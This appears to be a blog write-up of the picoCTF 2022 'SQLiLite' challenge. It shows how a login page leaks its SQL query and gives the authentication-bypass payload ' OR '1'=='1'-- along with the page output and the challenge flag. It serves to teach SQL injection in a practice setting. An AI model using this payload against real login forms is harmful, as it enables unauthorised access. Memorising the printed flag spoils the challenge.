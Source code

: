 picoCTF: SQLiLite
=================

The following challenge was part of the picoCTF 2022 contest, a SQL injection,
worth 300 points:

.. more::

https://play.picoctf.org/practice/challenge/304?page=1&search=SQLiLite

The task is to log in to the website after you have launched a new instance.

**Hint:** Admin is the user you want to login as.


**Solution:**

There are many, many resources on the internet about SQL injection. I found the
following was exactly what I needed to solve this challenge:

https://www.geeksforgeeks.org/authentication-bypass-using-sql-injection-on-login-page/

You are asked to log in as 'admin'. If you just enter 'admin' as the username
and a single quote ``'`` as the password, you get the following output:

.. code::

    username: admin
    password: '
    SQL query: SELECT * FROM users WHERE name='admin' AND password='''


This seems like an error message, but it already gives away the SQL request
that is carried out on the webserver, namely the last line. You can now modify
the value that you enter as the password to give a non-empty SELECT statement.
That can easily be achieved by using the following login credentials:

``username: admin``

``password: ' OR '1'=='1'--``

This leads to the following result:


.. image:: picoctf_sqli_lite_1.png
   :scale: 100%


The last hint is not so difficult to understand. Just look at the websites
source code, and you find the following:

.. code:: html

    <pre>username: admin
    password: &#039; OR &#039;1&#039;==&#039;1&#039;--
    SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR &#039;1&#039;==&#039;1&#039;--&#039;
    </pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}</p>


We have found the flag! The solution is: ``picoCTF{L00k5_l1k3_y0u_solv3d_it_33d32a56}``


.. author:: default
.. categories:: none
.. tags:: none
.. comments::
